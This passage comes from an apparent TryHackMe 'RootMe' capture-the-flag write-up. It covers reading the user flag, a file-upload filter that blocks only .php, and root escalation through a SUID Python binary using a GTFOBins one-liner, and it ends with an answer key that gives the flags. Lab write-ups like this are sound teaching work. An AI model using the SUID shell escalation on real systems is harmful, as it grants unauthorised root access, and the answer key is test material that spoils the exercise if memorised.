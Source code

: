 ```bash
-rw-r--r-- 1 test test  807 Aug  4  2020 .profile
www-data@rootme:/$ find / -name user.txt 2>/dev/null 
/var/www/user.txt
www-data@rootme:/var/www$ cat user.txt 
THM{****************}
```

3. Found user.txt in the webpage root dir. we cna read it from there. Let's also look at the roadblock we faced earlier in the file upload as we now have access to the web root. We see in the `/panel/index.php` [file](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/RootMe/web/panel/index.php) that the **.php** extension is blocked but not others. This is an example of insufficient security controls that allowed us in. 


## PRIVESC

1. Ran a simple [linpeas script](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/RootMe/ssh/linpeas.sh) and found interesting SUID in the [results](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/RootMe/ssh/linout.txt) owned by root!!.

2. Let's look up for this on the [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) to get an exploit.

```bash
www-data@rootme:/tmp$ which python
/usr/bin/python
www-data@rootme:/tmp$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
root@rootme:/tmp# whoami
root
root@rootme:/tmps# cat /root/root.txt
THM{********************************}
```

3. The Box is PAWNed!!!. Have a look around peeps. Signing out for now.

## Answers to Complete the Box

2. Reconnaissance
	1. Scan the machine, how many ports are open? - **2**
	2. What version of Apache is running? - **2.4.29**
	3. What service is running on port 22? - **SSH**
	4. Find directories on the web server using the GoBuster tool. - **panel, uploads**
	5. What is the hidden directory? - **panel**

3. Getting a shell
	1. User.txt - **THM{y0u_g0t_a_sh3ll}**

4. Privilege Escalations
	1. Search for files with SUID permission, which file is weird? - **/usr/bin/python**
	3. root.txt - **THM{pr1v1l3g3_3sc4l4t10n}**

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)